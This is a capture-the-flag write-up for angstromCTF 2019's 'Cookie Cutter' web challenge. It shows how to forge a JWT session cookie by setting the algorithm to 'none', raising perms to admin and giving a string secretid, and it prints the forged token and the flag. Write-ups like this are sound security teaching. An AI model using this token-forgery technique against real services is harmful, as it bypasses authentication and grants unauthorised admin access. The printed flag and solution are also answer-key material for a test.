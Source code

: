 # Cookie Cutter
Web (200 points, 48 solves)

## Challenge 

I stumbled upon this very interesting [site](https://cookiecutter.2019.chall.actf.co/) lately while looking for cookie recipes, which claims to have a flag. However, the admin doesn't seem to be available and the site [looks secure](https://files.actf.co/be68de25b4dcd9cecd2d16fc2eb974bf3892604d9ecdeb10b7c2c21346117a54/cookie_cutter.js) - can you help me out?

Author: lamchcl

## Solution

Note: I did not solve this during the contest. 

Trying to click the admin link gets us [rolled](https://www.youtube.com/watch?v=dQw4w9WgXcQc). The site uses a JWS for the session cookie. We can paste this cookie into [JWT.io](https://jwt.io/) to decode it.

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "perms": "user",
  "secretid": 4,
  "rolled": "yes",
  "iat": 1556495899
}
```

Looks like the JWS is HS256 signed and stores some information. The website will verify the JWS with the stored secret `secretid`. Our goal is to make "perms" equal to "admin" to get the flag. 

```js
if(decoded.perms=="admin"){
   res.locals.flag = true;
}
```

There is a common JWS vulnerability in which the app does not check that the algorithm in the header is the correct one. So, we can create a JWS with algorithm "none", and omit the signature.

```json
{
  "alg": "none",
  "typ": "JWT"
}
{
  "perms": "admin",
  "secretid": 4,
  "rolled": "no",
  "iat": 1556495899
}
```

But, what do we do with that `secretid`? It can't be undefined, greater than the size of the list of secrets, or less than 0. 

```js
if(sid==undefined||sid>=secrets.length||sid<0){throw "invalid sid"}
```

It turns out a string will fit these requirements. It isn't undefined, and a string compared to a number is false. When the site calls `jwt.verify()`, `secrets[sid]` will be undefined. So, we change our cookie to have a string in `secretid`. 

```json
{
  "alg": "none",
  "typ": "JWT"
}
{
  "perms": "admin",
  "secretid": "a",
  "rolled": "no",
  "iat": 1556495899
}
```

Encode this and remove the last section (signature) to get a cookie. 

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJwZXJtcyI6ImFkbWluIiwic2VjcmV0aWQiOiJhIiwicm9sbGVkIjoibm8iLCJpYXQiOjE1NTY0OTU4OTl9.
```

Visit the site with this cookie to get the flag. 

## Flag

```
actf{defund_ate_the_cookies_and_left_no_sign}
```
